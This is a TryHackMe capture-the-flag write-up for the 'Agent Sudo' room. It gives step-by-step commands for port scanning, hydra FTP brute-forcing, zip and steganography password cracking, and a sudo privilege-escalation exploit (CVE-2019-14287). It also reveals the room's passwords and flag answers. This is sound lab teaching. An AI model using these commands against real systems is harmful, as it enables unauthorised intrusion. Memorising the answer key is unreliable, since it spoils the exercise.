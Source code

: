 ![Agent Sudo Banner](https://tryhackme.com/img/banners/default_tryhackme.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/agentsudoctf/Agent_Sudo_Cover.png" alt="Agent Sudo Logo">
</p>

# Agent Sudo

This guide contains the answer and steps necessary to get to them for the [Agent Sudo](https://tryhackme.com/room/agentsudoctf) room.

## Table of contents

- [Enumerate](#enumerate)
- [Hash cracking and brute-force](#hash-cracking-and-brute-force)
- [Capture the user flag](#capture-the-user-flag)
- [Privilege escalation ](#privilege-escalation)

### Enumerate

**IP Adress:** 10.10.203.242

1. How many open ports?

   nmap -sV 10.10.203.242


   ><details><summary>Click for answer</summary>3</details>

2. How you redirect yourself to a secret page?

   Another way is to use curl -A "User-agent"

   ><details><summary>Click for answer</summary>user-agent</details>

3. What is the agent name?



   ><details><summary>Click for answer</summary>chris</details>

### Hash cracking and brute-force



1. FTP password

   hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.203.242 -t 4


   ><details><summary>Click for answer</summary>crystal</details>

2. Zip file password

   The two images don't tell us much. The text file, however, gives us some clues as to what we might need to do next.
   
   CRACKING TEXT FILE
   
   Lets start with the jpg file. Using steghide we stry to find anything hidden, but unfortunately we need a passphrase and the png file doesn't seem to give us contain anything. Using strings does give us some clues that something is hidden inside.
   
   ```cmd
   strings cutie.png
   ```
   
   CRACKING PNG STRINGS
   
   We can try using `binwalk` to get anything from it.
   
   ```cmd
   binwalk cutie.png -e
   ```
   
   CRACKING EXTRACT IMAGE
   
   Looks like there are some files and a zip archive hidden inside. Looking at the text file and the other two files gives us nothing. Neither when using `file` or `strings`. The zip file on the other hand does seem to contain a note. However, it is password protected. We can use `fcrackzip` to try a crack the password
   
   ```cmd
   fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt _cutie.png.extracted/8702.zip
   ```
   
   CRACKING FCRACKZIP
   
   Unfortunately, it couldn't find the password. Next thing to try is `john`. But we first need to create a hash from the zipfile using `zip2john`. Then we can use it in John.
   
   ```cmd
   zip2john _cutie.png.extracted/8702.zip > ziphash.txt
   
   john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
   ```
   
   CRACKING ZIP JOHN
   
   With the password found, we can open the textfile and read its contents.
   
   CRACKING ZIP MESSAGE
   
   The name seems to be base64 encoded. Using Cyberchef this gives us Area51.
   
   CRACKING CYBERCHEF

   ><details><summary>Click for answer</summary>alien</details>

3. steg password

stegseek --crack -sf cute-alien.jpg -wl /usr/share/wordlists/rockyou.txt 

   ><details><summary>Click for answer</summary>Area51</details>

4. Who is the other agent (in full name)?



   ><details><summary>Click for answer</summary>James</details>

5. SSH password



   ><details><summary>Click for answer</summary>hackerrules!</details>

### Capture the user flag



1. What is the user flag?

   Using username chris doesn't allow us to log in with SSH and the password we found. James, however, does work.
   
   ```cmd
   ssh james@10.10.186.39
   ```
   
   CAPTURE SSH LOGIN
   
   Looking through the directory we can see the user flag and read its contents.
   
   CAPTURE USER FLAG

   ><details><summary>Click for answer</summary>b03d975e8c92a7c04146cfa7a5a313c7</details>

2. What is the incident of the photo called?

   We can download the image through `scp`.
   
   ```cmd
   scp james@10.10.186.39:/home/james/Alien_autospy.jpg Alien_autospy.jpg 
   ```
   
   CAPTURE DOWNLOAD IMAGE SSH
   
   

   ><details><summary>Click for answer</summary>Roswell alien autopsy</details>

### Privilege escalation 

sudo -l
sudo -V
sudo /bin/bash
sudo -u#-1 /bin/bash


1. CVE number for the escalation 

   PRIVESC PERMISSIONS
   
   PRIVESC SUDO BASH
   
   PRIVESC SUDO EXPLOIT

   ><details><summary>Click for answer</summary>CVE-2019-14287</details>

2. What is the root flag?

   PRIVESC SUDO VERSION
   
   PRIVESC SUDO ROOT
   
   PRIVESC SUDO FLAG

   ><details><summary>Click for answer</summary>b53a02f55b57d4439e3341834d70c062</details>

3. (Bonus) Who is Agent R?



   ><details><summary>Click for answer</summary>DesKel</details>
